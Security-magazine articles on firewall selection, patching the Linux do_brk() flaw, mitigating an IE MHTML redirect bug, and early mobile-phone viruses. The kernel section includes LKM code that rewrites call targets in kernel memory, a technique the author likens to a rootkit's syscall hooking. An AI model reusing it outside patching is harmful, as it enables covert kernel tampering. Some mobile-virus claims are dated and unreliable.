> 如今，黑客技术不再蒙着神秘的面纱，科技发展带动着网络飞速发展，网络再不是神秘的“金三角”。从一个程序员自学的点点滴滴，到一个黑软诞生的风风雨雨，再到一个软件公司创办的前前后后，让我们从发哥的人生路上体会出明天的含义！努力，就有明天！

## 透析硬件防火墙

刘流：攻防实验室活动正开展得如火如荼，很多高手都已经突破了第 9 关，脸上的表情是轻轻松松，似乎对实验室的安全设置“不屑一顾”。但一到第 10 关，表情立即由晴转阴，很多参与者对攻防实验室的第 10 关是一筹莫展，我们也殷切地希望有高手能突破我们的第 10 关，拿走大家都翘首以盼的笔记本！

同时，现在已经开始了第三轮实验室的筹备，我们上期刊登的 Apache 服务器构建，相信关注实验室的朋友一定开始在研究漏洞了，第三轮我们将策划使用硬件防火墙来作为我们的关卡！真正模拟出实际的网络环境，希望大家能通过实验室再学到更多的知识！那防火墙到底是什么东西呢？它有什么安全“奥妙”呢？今天就来我们就来把防火墙技术翻个“底朝天”吧！

- 适合对象：网络管理员、解决方案分析师
- 前置知识：网络构架

文 / freebird

网络的迅速发展，带来了工作效率的提高，丰富了人们的日常学习生活。与此同时，网络安全问题受到前所未有的关注，很多企业都部署网络安全产品保护网络免遭外来非法攻击和防止内部保密信息外泄。在所有安全产品中，防火墙为网络安全的第一道门，安全技术应用比较成熟。相信很多用户正准备购买防火墙用于保障网络安全，面对市场上这么多的防火墙，如何挑选性价比最高的防火墙呢？如何使用防火墙效果好呢？——笔者多年从事防火墙的选型和应用实施工作，希望通过本文能为用户提供这方面的帮助。本文将介绍防火墙的体系、主要功能与关键技术、技术指标和防火墙热点问题等内容。

## 防火墙体系

### 主机防火墙和网关防火墙

按照安装位置、部署方式不同，防火墙可分为主机防火墙和网关防火墙两大类别。

主机防火墙是指以软件方式安装在单独机器上，通过设定安全策略保护该机器的防火墙。

网关防火墙是指以硬件方式或软件方式，部署在不同网络区域之间（处于网关位置），通过设定安全策略，集中保护内部网络区域的防火墙。

两种防火墙在很多方面存在差异，一是在保护范围方面，主机防火墙只保护一台主机，网关防火墙可保护事先定义的 n 台机器范围；二是在执行安全策略方面，主机防火墙安全策略分散执行，网关防火墙通过统一的安全策略集中保护内部网络；三是在功能方面，比起主机防火墙，网关防火墙的功能丰富得多，比如 NAT、VPN 等；四是在维护工作量方面，主机防火墙由于分散管理，安全政策的调整往往需要更改大部分主机防火墙软件的安全规则，特别是随着机器的增加，维护量将成倍增大，网关防火墙由于集中执行安全策略，维护方便。合应用于复杂网络；五是在防范内部攻击方面，网关防火墙无法防范内部攻击，主机防火墙能防范所有机器的非法攻击，包括内部网络的机器入侵。

## 软件防火墙和硬件防火墙

软件防火墙是指以软件方式运行在通用系统平台上的防火墙产品，CheckPoint公司的FireWall-1、个人防火墙、LINUX的iptables、ipchains等均属此类防火墙。

软件防火墙安装升级灵活，如果出现故障，一时解决不了，只需卸载重新安装配置即可。但软件防火墙安装在通用操作系统上，这些操作系统的稳定性和安全性无法得到很好的保证，实际应用上也很难保证运行软件防火墙的机器不会被用做其他用途，或许有的用户临时没有机器，用这台机器做文字处理都不一定。

硬件防火墙具有以下特点：一是软件实现硬件化，任何一台硬件防火墙都由软件和硬件组成，没有绝对的硬件防火墙，再“硬”的防火墙都需要软件做支撑，如果你愿意，也可以把上面提到的软件防火墙当成是硬件防火墙（PC硬件＋软件）；二是性能高，防火墙将包检查模块等比较费时的工作采用硬件实现，可以大大提高效率，有些硬件防火墙处理速度甚至可达到线速；三是可靠性强，硬件防火墙专门化程度高，出现故障的机会也很少；四是自身安全性高，硬件防火墙采用专用或经过改造的操作系统，去掉不必要的调用和功能，安全性高。

## 操作系统

防火墙操作系统（内核）可以分为通用操作系统、安全通用操作系统和专用安全操作系统。

通用操作系统一般指Windows、Linux、Unix等通用平台操作系统，软件防火墙都是安装在通用操作系统上的。由于通用操作系统存在众所周知的安全问题，为了提高性能和自身安全性，用户通常要在通用操作系统上去掉无用的服务，定期安装补丁等。

专用安全操作系统是自行设计的专用操作系统，其代表有NetScreen。目前很多防火墙在说明书上刻意回避通用操作系统，强调其操作系统是自行设计的专用安全操作系统，实际上使用的还是安全通用操作系统。事实上，专用安全操作系统如果设计得不好，在稳定性、安全性和性能上可能比不上通用操作系统。

## 防火墙关键技术及基本功能

### 包过滤技术

包过滤技术是防火墙最基本的功能，一般是一个包检查模块。对于通过防火墙的每个数据包，包过滤模块按照事先设定的安全策略（规则）决定包是否通过。作为一个防火墙，包过滤的内容至少应包括源地址、目的地址、协议、源端口、目的端口、ICMP（匹配各种类型码）和时间。

按照包过滤方式的不同，包过滤技术可分为静态包过滤和状态检测技术。

### 静态包过滤技术介绍

静态包过滤技术属传统的包过滤方式，路由器和早期防火墙使用这种技术。静态包过滤只检查少量低层数据，因此速度很快；同时，静态包过滤防火墙工作于网络层，对上层数据完全透明，用户无需改变应用程序，非常灵活。但静态包过滤存在很多缺陷，主要表现在：

- (1) 无法控制端口变化的应用。
- (2) 记录日志信息不充分。静态包过滤防火墙对网络层数据进行过滤，不能记录更加详细的内容。
- (3) 设计和配置一个真正安全的分组过滤规则比较困难，静态包过滤技术不适合部署在复杂的网络应用环境中。
- (4) 有些静态包过滤无法阻止极小分片数据包攻击。
- (5) 无法防止数据驱动式攻击。
- (6) 无法提供实时连接信息。

### 状态检测技术介绍

为克服静态包过滤无状态的检测方式，CheckPoint公司提出了状态检测概念，目前状态检测技术已成为防火墙业界技术标准。状态检测防火墙除了维护一张规则表，还在内存中维护一张状态表，状态表记录正在通讯的会话状态。该状态表一般包括以下信息：

- (1) 数据包的头信息(源地址、目的地址、协议、源端口、目的端口、包长度)；
- (2) 连接状态信息(哪一个连接打开了哪一个端口)；
- (3) TCP和IP分段数据(例如：分段号、顺序号)；
- (4) 数据包重组、应用类型、上下文校验(即：包属于哪个通讯会话session)；
- (5) 到防火墙的哪一个接口上；
- (6) 从防火墙的哪一个接口上去；
- (7) 第二层信息（如VLAN、ID号）；
- (8) 数据包到达的日期和时间；
- (9) 超时设置。

事实上，不同的防火墙实现状态检测有所差异，所采用的会话状态也有所不同。

## 内容过滤技术与应用代理技术

我们知道，包过滤技术工作于网络层，无法实现对应用层的控制，因此单纯的包过滤防火墙不能处理病毒、UNICODE和ActiveX有害程序的入侵。为了弥补包过滤不能防范应用层的不足，内容过滤技术被提出来。内容过滤技术针对具体应用程序（这里用“应用程序”来指通过防火墙的HTTP、FTP、Telnet和自己设计的程序，有些资料用“服务”术语表示，请读者分辨）而设计，对于每个需要进行内容过滤的数据包，都要求防火墙事先理解该应用层数据格式。

内容过滤技术主要指基于包过滤的内容过滤技术。基于包过滤（状态检测）的内容过滤技术首先对数据包进行状态检测和规则匹配，如果需要进行内容过滤，防火墙再根据具体应用交给该应用模块检测，比如HTTP过滤就交给HTTP模块过滤，FTP过滤就交给FTP模块过滤。有些资料也把此内容过滤技术归为状态检测技术的一部分，或者把状态检测技术+内容过滤技术结合叫成另外一个术语。

应用代理技术也是防火墙的一个历史比较长的技术，WinGate、SyGate之类的软件就是使用代理技术的典型软件。很多资料在谈到防火墙分类时，都把防火墙分成包过滤防火墙和应用代理防火墙。但事实上防火墙应用代理技术的提出是为了弥补包过滤不能防范应用层的不足而设计（读者也可从“应用”两字看出来），应用代理技术是内容包过滤技术的一种。在应用代理技术中，代理服务是运行在防火墙上的一种服务，代理隔离两端的直接通讯，两端的通讯都要通过代理服务的安全策略控制，访问者任何时候都不得与被访问者直接通讯，只能由安装在防火墙的相应代理服务器做转接。不同的应用程序要求有不同的代理，比如HTTP代理、FTP代理、SMTP代理等等。

比较这两种内容过滤技术，基于包过滤的内容过滤在协议栈抽取应用层数据进行过滤，所有工作在内核层次，因此效率高，处理速度快。基于代理技术的内容过滤对两端通讯进行隔离，对于两端的一次socket连接，防火墙要建立两个socket连接，增加了系统开销，但是由于访问者与被访问者没有直接的通讯，比起前者能达到很高的安全性。另外，应用代理技术具有用户身份认证功能，用户需要代理服务认证才能建立连接。对于分片包的处理上，两种技术也有区别。对于分片包，代理技术的防火墙会进行重组（这时防火墙就是访问者的服务器），但是基于包过滤的内容过滤技术很多只对单独的数据包进行应用检查，不会进行重组，因为重组会大大增加系统开销。这样一个精心伪造的碎片攻击就很容易骗过基于包过滤的内容过滤防火墙。如果一个携带攻击特征的URL访问以较大的数据包发送到防火墙，两种技术都能阻止，但是如果这个URL分成多个数据包，并且以乱序的方式发送给目标服务器，基于包过滤的内容过滤防火墙如果不对数据包进行重组，会把这些分开的数据包当成正常的包，根本无法识别这个攻击的企图。而应用代理要对这些数据包进行重组，还原成原来的数据包，能防范这种攻击。

## NAT技术

NAT技术（网络地址转换技术）用于将一个或多个地址转换成单个或多个地址。实现NAT主要有两个作用，一是隐藏内部地址，使外部用户无法了解内部用户的拓扑结构，二是解决IP地址不够用的情况。

NAT技术包括静态地址转换、动态地址转换和双向NAT等。

静态地址转换也称一对一或单对单转换，即是将一个IP地址转换成另一个IP地址，这种技术实现很简单，用户也容易记。

动态地址转换，也称多对一或多对多地址转换，转换前的IP地址是多个，转换后的IP地址可以是一个或多个，这里的转换前和转换后的IP地址并不要求一一对应，通常是转换前的地址比转换后的地址范围大。

双向NAT也有人称正反向NAT，是指防火墙不同区域的地址可以互相进行地址转换。如果防火墙部署在Internet出口，一般很少用到双向NAT，如果防火墙部署在企业内部复杂网络环境下，很有可能会使用双向NAT，这种情况建议用户选择支持双向NAT的防火墙。

### VPN技术

VPN被定义为通过一个不安全网络建立的一个临时的、安全的连接，是一条穿过混乱的不安全网络的安全、稳定的隧道。VPN采用的技术有隧道技术（Tunneling）、加解密技术（Encryption & Decryption）、密钥管理技术（Key Management）、使用者与设备身份认证技术（Authentication）。VPN普遍应用于移动办公、数据传输加密解决方案，笔者曾把VPN应用于企业交易平台的数据加密、设备认证模块，起到很好的效果。

VPN并不是防火墙必须的功能，市场上有大量专门的VPN设备。VPN是防火墙附加的功能，并不是所有的防火墙都提供VPN模块，而且通常购买防火墙的VPN模块需要另外收费。

### 审计和报警功能

防火墙的审计和报警功能是一项十分重要的安全措施，一个良好的审计报警系统能为管理员及时发现安全事件提供帮助。防火墙的日志总体要求是记录全面，方便查询，可灵活定制。

## 防火墙技术要点解析

### 工作模式（透明模式和路由模式）

路由模式就像一台“路由器”接入已有环境那样，相应网络设备和主机需要改变路由，应用程序IP地址设置也需要相应更改。

透明模式也称桥模式、交换模式，在该模式下，防火墙就像一台交换机那样“透明”地接入已有环境，所有通过防火墙的主机路由、应用程序无须改变配置。要想实现透明模式，防火墙必须在没有IP地址的情况下工作，不需要对其设置IP地址（有少部分防火墙的网络接口需要设置相同网段的IP地址），用户也不知道防火墙的IP地址。当然，工作在透明模式下的防火墙仍然需要提供一个管理IP地址，用于远程管理防火墙。

有人曾经问“透明模式是不是工作在第二层，”这种说法是不对的，透明模式也可以工作在网络层（包过滤处理）和应用层（内容过滤），要不然，如果透明模式工作于第二层，那么不是成了交换机之类的设备吗。

透明模式无须改变已有网络拓扑结构和应用配置，非常的方便，一旦防火墙出现故障，在安全政策允许的情况下，可以把防火墙卸下，“透明”地恢复原状，无须更改配置，这对于一些稳定性要求高或网络已建成的企业来说非常的重要。例如银行系统对运行安全要求非常的高，网络系统比较成熟，银行系统防火墙一旦出现故障，将致使业务无法交易，此时如果采用透明模式，可以卸下防火墙，先保证业务正常运行，待查明原因再把防火墙搬上去。有些防火墙在透明模式下的性能比路由模式较好，但这不是绝对的，因为在透明模式的实现上（大都使用ARP代理），各个厂家在细节上会有些差异。当然，有些防火墙在透明模式下不能实现某些功能，比如NAT。

目前大部分硬件防火墙都支持透明模式和路由模式，国内有些防火墙还提供透明与路由同时存在的混合模式，在该模式下，防火墙的某些接口之间是透明的，某些接口之间是非透明的。

### 网络接口特性

- 网络接口类型：防火墙一般支持以太网接口，有些防火墙还支持ATM、FDDI和令牌网接口等。具有广域网接口的防火墙，如果部署在专线连接的环境中，可以节省一台路由器。
- 网络接口数：接口越多，网络配置的灵活性就越好。防火墙至少应配备3个以上的以太网接口，用于内网、外网和DMZ区，并且至少可扩展至4个以太网接口。
- 网络接口速率：有100M和1000M，也即百兆防火墙和千兆防火墙。千兆防火墙使用的机会不多，其价格也贵很多。

### 支持的路由协议

在大部分应用环境中，处于防火墙不同区域的网络设备和主机只需设置静态路由指向防火墙，但有些环境要求动态路由通过防火墙。防火墙支持的动态路由协议包括RIP、OSPF等。

### TCP/IP应用支持和非IP协议支持

通过防火墙的TCP/IP应用可分成3类：第一类单端口应用，比如Telnet应用使用23端口，HTTP应用使用80端口，所有的防火墙都能处理这类应用；第二类多端口应用，这类应用使用若干个固定的端口，用户需要熟悉此类应用的端口，在防火墙定义这些端口并加以控制，有些防火墙已内嵌多端口应用的定义，用户无须熟悉应用端口，非常的方便；第三类是动态临时开启端口的应用，比如FTP、RPC等应用，如果防火墙不支持此类应用，就需要事先打开所有可能打开的端口，这将造成很大的安全风险。

对于非IP协议的支持，防火墙至少应该支持NetBIOS协议，用于Windows共享访问。有些防火墙可根据定义，支持大部分非IP协议。

### 安全规则配置

防火墙在稳定运行后更多的工作是维护安全规则，安全规则的设计应灵活，便于操作。

### 资源对象化管理

在防火墙中，资源(也称对象、元素)包括主机、服务、时间等，资源是每条安全规则的要素。

防火墙把资源用名称代替，在安全策略维护时采用该名称代表资源称为对象化管理，一个灵活的对象化设计应该能够对以下资源进行定义：

- 主机资源：包括单个主机、连续的主机段、多个分散主机的组合、单个网段、多个分散的网段和以上的任意组合。
- 应用服务：包括单个服务、多个服务组合。
- 时间：可按需要定义时间段，比如工作时间。

如果不采用对象化管理，将会给维护工作带来很大的麻烦。

### 安全规则可操作化

防火墙上线后，日常工作主要集中在安全规则的维护上，一个可操作化的安全规则配置将为管理员提供事半功倍的效率。

### 日志审计

防火墙日志审计功能很重要，用户在选用防火墙时应该注意以下内容：

- 日志可读性：日志显示信息应该要素明了，查看方便，内容不能过粗也不宜过细。至少要求提供的日志信息有：事件时间、协议、IP地址、端口(服务)、动作(拒绝或允许)等内容。有些防火墙连TCP序列号、标识位、是否分段等信息都提供，虽然这些详细信息可以为管理员提供更好的帮助，但是信息过细、过杂，导致查看非常的不方便，反而容易使管理员疏忽。
- 日志存储方式：日志存储一般采用两种方式，一种是直接存储在防火墙上，另一种是远程存储在一台日志服务器上。
- 日志定制功能：管理员应该能够按照安全策略定义哪些规则需要记日志，哪些不需要记日志，如果不提供日志定制的功能，就不能有选择地记录信息，将使日志信息非常的庞大，不利于查看。
- 日志查询功能：为方便管理员查询某些安全事件，防火墙应该具备日志查询功能，至少应能按照IP地址、服务、时间、处理方式（拒绝或允许）等要素查询。

## 防火墙管理

防火墙管理实现对防火墙初始化、网络配置、安全策略调整等工作，一个设计良好的防火墙管理技术能为管理员提供安全、快捷、灵活的管理方式，应该把管理功能作为选择防火墙最重要的参考参数之一。

### 管理工具

目前防火墙管理有命令行管理和图形界面管理两种。大部分防火墙先使用命令行完成初始化工作，包括设置网卡参数、IP地址、路由等基本工作，然后通过图形化的管理工具连接防火墙进行安全规则设置、审计、监控等复杂工作。命令行管理一般通过连接Console线进行，有些防火墙也支持Telnet（未加密）和SSH软件（加密）进行命令行设置。图形界面管理包括WEB管理和GUI管理。

### 管理安全性

和其他系统一样，防火墙自身也存在很多安全问题。黑客攻击防火墙的手段也日益丰富，最常见的是从防火墙远程管理入手，通过用户的疏忽读取管理密码或通过防火墙管理漏洞非法登录防火墙系统。因此，防火墙远程管理的安全性非常重要，其技术主要有：

- **传输加密**：防火墙管理传输数据非常重要。为防止传输数据被非法盗取，防火墙管理的数据应该进行加密处理，即使黑客中途截取通讯包都无法解开。防火墙管理软件一般采用SSL、SSH等协议加密数据。
- **认证**：是指用来证明防火墙管理者的身份。一般防火墙支持基于用户名/口令、一次性口令、Radius和数字证书等认证方式。
- **授权**：是指赋予用户的操作权限或级别的行为。防火墙应该提供多级别多权限管理，定义管理者的级别（管理员、审计员、一般用户等级别）和权限（可读、可写和可执行等权限）。
- **管理事件审计**：防火墙管理行为属重大事件，应对管理行为进行记录跟踪。如果你发现在某个时刻发生了防火墙管理事件，你询问过所有的管理员，确定在该时刻他们没有进行任何管理操作，那么你有理由相信这是一次非常严重的入侵事件。

### 支持配置文件导入导出功能

防火墙管理一般会形成一个配置文件，记录防火墙的基本配置（包括接口情况、IP地址设置）和访问规则等内容，该文件非常的重要。防火墙应支持配置文件的导入导出功能，配置文件导出可作为备份，在防火墙出现故障或安全规则设置存在问题等情况时可导入之前的配置文件恢复原来正常的状态。

### 集中式管理

当企业部署的防火墙很多时，防火墙的集中式管理就显得非常重要。防火墙集中式管理平台为安全产品提供了一致的数据接口和为安全管理员提供了一致的管理接口。作为集中式的管理平台，系统将完成防火墙的集中管理、安全策略的制定和执行，监控和日志审计并最终达到动态的应急响应目标。

## 访问身份验证问题

访问身份验证是指防火墙对访问行为的身份识别。通常情况下，防火墙通过ACL（访问控制表）来控制身份验证，这种方式只是简单地以主机地址、协议、端口号等为过滤条件实现身份认证，但此方式很容易被伪造，来自外部的IP地址欺骗行为很容易绕过这种验证机制。为解决这个问题，很多防火墙提供对访问控制的强身份认证机制，包括基于用户、应用代理和VPN技术等。

## 流量控制

流量控制可以分为基于IP地址的控制和基于用户的控制。基于IP地址的控制是对通过防火墙各个网络接口的流量进行控制，基于用户的控制是通过用户登录来控制每个用户的流量，从而防止某些应用或用户占用过多的资源，并且通过流量控制可以保证重要用户和重要接口的连接。

流量统计是建立在流量控制基础之上的。一般防火墙通过对基于IP、服务、时间、协议等等进行统计，并可以与管理界面实现挂接，实时或者以统计报表的形式输出结果。流量计费从而也是非常容易实现的。

### 实时状态显示

防火墙实时状态显示功能提供了正在通过防火墙的数据包的连接状态，其作用类似于一个简单的Sniffer，记录了数据包的源IP地址、目的IP地址、协议、源端口、目的端口等实时信息。

### 超时设置

TCP/UDP协议有长连接和短连接之分，比如Telnet属于长连接，HTTP属于短连接。为避免长连接占用带宽，一般防火墙都具有用户定期最长连接时间的设置，由用户根据需要定制最长时间，超过此时间将把该连接断开。

## 防火墙若干热点问题

### 防火墙资质问题

按照国家有关规定，安全专用产品都要求申领公安部计算机管理监察部门颁发的销售许可证。这个证是强制性的，防火墙产品要想在国内销售，必须取得销售许可证。另外，还有中国国家信息安全测评认证中心的测评，这个证在国内还是比较权威，但不是强制性的，国内大部分防火墙都通过此认证，但国外某些防火墙没通过此认证。

### 防火墙与路由器安全性问题

我们知道，现在的路由器一般都具有包过滤（通过ACL访问控制列表）、防DoS攻击等安全特性。有些人提出路由器启用这些安全功能可以代替防火墙，对此防火墙厂商坚持认为有了路由器还需要防火墙。对于这个问题，笔者认为要区别对待。

路由器使用静态包过滤技术，工作在网络层，它虽然可以控制端口号等上层内容，但不能跟踪上层信息。现在的防火墙一般使用状态检测技术，可以工作于更高层，可以跟踪上层信息，进行内容过滤。防火墙的状态检测技术无论在安全性上还是在性能上都比路由器使用的静态包过滤技术优越。另外，防火墙是专门为保护内部网络、防范攻击而设计，功能全面，管理灵活，路由器的防火墙特性只是其附属功能。但是我们也要知道，在路由器实现防火墙特性是能够防范大部分攻击的。对于针对静态包过滤防火墙的攻击，用户可以通过主机系统加固等手段防范。其实安全是多方面的，再先进的防火墙也不能防范所有攻击，仍然需要通过其他安全措施保障整体网络安全。

### 防火墙防病毒功能问题

关于防火墙需不需要集成防病毒功能的问题，有很多争议，有些人认为防火墙应该集成防病毒模块，有些人认为这样会影响性能，坚持防火墙不应该提供防病毒功能。究竟孰对孰错呢？让我们先来看看防火墙防病毒检测是如何工作的。

防火墙通过内置的病毒引擎分析数据包是否感染病毒，这种工作需要跟踪数据包应用层的数据，从这点看，防火墙防病毒功能事实上是内容过滤的一种。内容过滤是一件很耗资源的工作。目前，还没有有效的对应用层进行高速检测的方法，也没有哪款芯片能做到这一点。病毒过滤的种类越多，内存和CPU开销就越大。所以，一般来说防火墙并不过滤所有的病毒，而是在病毒的种类上进行取舍。每天都会有新的病毒出现，攻击特征库需要频繁升级，对于处在网络出口关键位置的防火墙，如此频繁地升级也是很不现实的。

事实上，防火墙集不集成IDS功能也存在上述问题。因为IDS技术很多都需要涉及到应用层数据，所以防火墙一般防范非应用层的攻击，比如Ping Flood，对于应用层的攻击防范甚少。

> 以上通过对防火墙的大体系统介绍，相信大家对防火墙都有了总体上的认识。很多朋友来电询问我们需要如何选购防火墙，今天的文章希望能给你带来一些帮助。同时，在以后的杂志上我们会刊登更多的此类防火墙信息和对应行业的安全解决方案，方便大家选择。大家有任何想法都可以直接和我们交流，期待你的参与！

## 抵抗 Linux kernel do_brk() 参数

## 边界检查不充分漏洞

编者按：brk漏洞在2003年9月份就被Linux内核开发人员与一些安全人员发现，但是内核开发人员却忽略了该漏洞的危害性，使广大Linux管理员根本没有察觉该漏洞，致使该漏洞在攻击者对Debian与Gentoo的攻击行动中扮演了重要角色。关于该漏洞的详细描述信息请参阅本期“攻防”的另一篇漏洞分析文章。因为对该漏洞的攻击代码已经大规模公开，所以严重地影响到了Linux系统的安全性，在严峻的情况下你的系统打补丁了吗？你做好防护了吗？没有的话，赶紧看看本文吧！

- 适合对象：程序员，骨灰级老鸟
- 前置知识：Linux内存管理、C语言

文 / lcbmllei [启明星辰防御实验室]

brk漏洞是一个危害非常严重的本地漏洞，因为这种漏洞是一种新型的漏洞，可以绕过缓冲区溢出的补丁和一些内核安全增强内核补丁，导致攻击者只要可以拿到任何本地用户的访问权限，就可以在2.4.23内核以下的Linux系统上取得管理员权限。所以说最好的防御就是不让攻击者拿到任何可以访问本地系统的权限，但是这是最理想的情况。如果我们必须要为用户提供一些本地的访问权限或者系统上用户很多，很有可能被攻击者获得一个本地的账号，所以给系统打补丁是非常必要的。

接下来我们从多个方面来讨论3种针对该漏洞的修补方案，希望读者可以从下面的方案中找到合适自己的方案。

### 第一种方案

最根本的方法就是直接升级内核到2.4.23，这样可以修补这个brk漏洞。可以在 www.kernel.org 下载2.4.23的完整源代码或者直接下载2.4.23的补丁包（http://www.kernel.org/pub/linux/kernel/v2.4/patch-2.4.23.bz2）。虽然这种方法看上去好像很简单，其实管理员还是需要考虑到很多因素，比如说兼容性问题，因为内核改动后内核中的一些数据结构被改变了，一些特定的硬件驱动就会不兼容，还有升级新的内核后要考虑到一些应用是否还能正常运行。还有一些情况就是如果这样升级内核就需要重新编译并配置内核，然后需要重新启动机器以便以新的内核引导系统，这样就使得这种方案对管理员带来了更多的麻烦。

> **总结**
> 最根本的解决方案，如果没有兼容性与管理问题的话，这个应该是解决这个漏洞的最佳方案。

### 第二种方案

这种方案可以避免一些兼容性的问题，就是patch原来的内核中有漏洞的源代码。从代码方面来看要修补该漏洞其实很简单，只需在mmap.c中的do_brk()里加入几行对参数判断的语句，检查参数是否为正常值，如果不是则返回一个-EINVAL：

```c
if ((addr + len) > TASK_SIZE || (addr + len) < addr) {
    /* 检查是否超过了 TASK_SIZE 的边界或者 len 值是否为负数 */
    printk("caught do_brk exploit!!!\n");
    return -EINVAL;
}
return do_brk(addr, len); /* 调用原有的 do_brk() */
```

上面这几句就是我们新的do_brk()函数my_brk()。

这种直接修改内核源代码的方案使当前服务器上运行的应用或者服务器硬件没有了兼容性的麻烦，不过还是要重新编译配置内核并重新启动机器以便使用新的内核，所以并没有减轻管理上的麻烦。

> **总结**
> 该方案因为只是在原有内核的基础上修补了有漏洞的代码，这样就使修补该漏洞而没有兼容性的麻烦，如果用户害怕兼容性方面的问题可以选择该方案。

### 第三种方案

这种方案的目标是为了达到“on the fly”的效果，就是在不重新启动服务器的情况下动态地给系统打补丁。其实就是使用一些LKM（Loadable Kernel Module）的技术寻找所有do_brk的调用（call或者jump），并把有漏洞的do_brk的地址替换为我们自己修补过的my_brk。在my_brk()中我们首先判断输入参数是否正确，如果正确则调用原来的do_brk()，其实这种方法就像一些内核后门替换了系统调用。

以下是该补丁实现替换逻辑的部分源代码示例：

```c
ptr = (unsigned char *)(do_brk); /* 首先获得do_brk的地址 */
newptr = (unsigned char *)(my_brk); /* my_brk的地址 */

for (cptr = start; cptr < end; cptr++) { /* 扫描所有内核区域 */
    if (*cptr == 0xe8 || *cptr == 0xe9) { /* 判断是否为0xe8或者0xe9，即call或者jump */
        cptr++;
        lptr = (long *)cptr;
        cptr += 4;
        if ((cptr + *lptr) == (ptr)) { /* 是否指向do_brk */
            printk("fixing 0x%08lx\n", lptr);
            *lptr = (newptr - cptr); /* 如果是，则覆盖为新的my_brk */
        }
    }
}
```

其修补函数my_brk的内容如下：

```c
unsigned long my_brk(unsigned long addr, unsigned long len)
{
    len = PAGE_ALIGN(len);
    if (!len)
        return addr;

    if ((addr + len) > TASK_SIZE || (addr + len) < addr) {
        /* 检查是否超过了 TASK_SIZE 的边界或者 len 值是否为负数 */
        printk("caught do_brk exploit!!!\n");
        return -EINVAL;
    }
    return do_brk(addr, len);
}
```

> **总结**
> 该方案可以“on the fly”地为内核打补丁，不需要重新下载新的内核，也不需要重新编译配置内核，只需要把该补丁模块insmod到内核中就行了（该模块详见光盘杂志相关栏目）。虽然这个方案有那么多好处，但还是有一些问题需要注意，加了此模块后可能会影响系统的稳定性，而且肯定会降低系统的运行速度。

**后记**

以上就是我们从兼容性、易升级性和系统稳定性等多个方面探讨并给大家推荐的3种方案，我想其中肯定有一款适合你。希望读者从中能学习到给Linux系统打补丁的一些知识，使大家能看懂系统补丁是怎么修补系统的，这样以后就可以提高系统整体的安全性。

---

## MHTML文件重定向漏洞

## 防范策略

文/图 风清扬

到目前为止，这个漏洞还没有合适的补丁程序。其中的一个漏洞是一个跨站点脚本安全隐患，可以导致来自于某一安全域（如因特网）的基本以另一个域（如我的电脑）的安全权限执行。同时，已经证实IE 6中存在这个安全漏洞，但早期IE版本浏览器也可能存在这个问题。

基于程序攻击的特点，我们可以采用以下的防范措施：

- 不去登录未知的站点，尤其是域名具有诱惑性的站点。
- 为了减小危害，建议的应对措施是关闭Internet Explorer浏览器中的ACTIVE脚本。以下为关闭ACTIVE脚本的操作方法：
  1. 点击Internet Explorer浏览器“工具”菜单中的“选项”。
  2. 选取“安全”标签。
  3. 点击“默认级别”按钮，确认IE设置安全级为“中级”及以上。
  4. 点击“确定”完成设置。

另外，MHTML文件重定向并执行漏洞在Outlook Express中更容易被利用，可以在不打开邮件的情况下自动下载并执行网络上的恶意程序。建议对Outlook Express做如下设置：

- 1. 选取“工具”菜单中的“选项”。
- 2. 点击“安全标签”，将“选择要使用的 Internet Explorer 安全区域”设置为“受限站点区域(较安全)”。
- 3. 最后点击“确定”完成设置。

以上方法只是临时解决这些漏洞的危害，最根本的方法还是要微软官方公布最新的漏洞补丁。

本文到此就算结束了，文章中所通过测试的操作系统为Windows XP+SP1、IE6.0+SP1, Windows 2k pro/server+sp4、IE6.0+SP1，文章内的所有内容仅仅作为技术交流。

---

### 手机防“暴”秘诀

文/图 chinadata

> 脚本小子：wtf，快来啊，我的手机咋死了啊（Wtf：可能是病毒吧，谁叫你的手机这么高级！哼！）。刚买的手机好多人给我发短消息，说什么交友啊（wtf：呵呵，那是手机短信炸弹吧）。我晕！这周都“暴”4次了！

手机，已经成为我们日常生活中离不开的通讯工具。回头来看看病毒，我们也并不陌生。想必电脑防毒的理念对于不是特别菜的新手来说已经非常深刻了，那么手机防病毒该怎么防范呢？你是否具备这种防范意识？你是否领教过手机病毒呢？也许对大多数人来说还是十分陌生的吧，不过对那些深受其害的人们来说，他们真的对病毒是深恶痛绝。手机病毒的危害是很大的，我们如何解释手机病毒，我们又该怎样预防手机病毒，一串的问题等待着我们。

### 了解手机病毒

手机病毒其实也和计算机病毒一样，它可以通过电脑执行而向手机乱发短信息。严格地讲手机病毒应该不算是一种真正的电脑病毒，这种病毒只能在计算机网络上进行传播而不能通过手机进行传播，因此所谓的手机病毒其实是电脑病毒程序启动了电信公司的短消息发送接口服务罢了。

现阶段，黑客对手机进行攻击通常有3种方式：

1. 攻击WAP服务器使WAP手机无法接受正常信息；
2. 攻击和控制“网关”，向手机发送垃圾信息；
3. 直接攻击手机本身，使手机无法提供服务。

这种破坏方式难度相对较大，现在的技术水平还很难达到。

当然，也有的手机病毒破坏力还是比较大的，一旦发作可能比个人电脑病毒更厉害，其传播速度甚至会比“爱虫”病毒更快。侵袭上网手机的病毒，会自动启动电话录音功能，并将录音四处传送，病毒也会自动打出电话、删除手机上的档案内容，以及制造出金额庞大的电话账单。由于部分手机病毒是从自动打出电话时散播，所以它比电脑病毒影响更广，而将来随手机设计更复杂及功能更多元化，病毒带来的灾害亦会更广。

目前已经出现的手机病毒共有6种，它们分别是：

1. “EPOC—ALARM”，它持续发出警告声音，虽无大害，却也颇为烦人；
2. “EPOC—BANDINFO.A”，它发作时会将用户信息变更为“Some fool own this”；
3. “EPOC—FAKE.A”，它会在手机的屏幕上显示格式化内置硬盘画面，不过无需惊慌，因为实际上手机并不会执行格式化操作；
4. “EPOC—GHOST.A”，它会在画面上显示“Every one hates you”这样的信息；
5. “EPOC—LIGHTS.A”，它会使背景灯持续闪烁；
6. “EPOC—ALONE.A”，它可以使键盘操作失效。

这6种病毒中前五种的危害并不很大，并且还有种恶作剧的味道，但第六种“EPOC—ALONE.A”却是一种恶性病毒。当电脑执行有毒的程序时，会显示红外线通信接收文件时所显示的画面，并在此将病毒悄悄地藏入内存之中。当病毒在内存中安营扎寨之后，会在电脑画面上显示“Warning - Virus”的信息，此后感染病毒的手机便不接受任何键盘操作。当你发现以后，可以输入“leave me alone”来解除病毒的常驻性。而其他曾经出现过的手机病毒，能使手机自动关机、死机等，甚至内部芯片烧坏。部分出现过的手机病毒还可使手机自动报警、将机内个人地址簿自动转发等。

### 防范技巧

防范手机病毒有绝招——“看之！查之！杀之！远离之！”

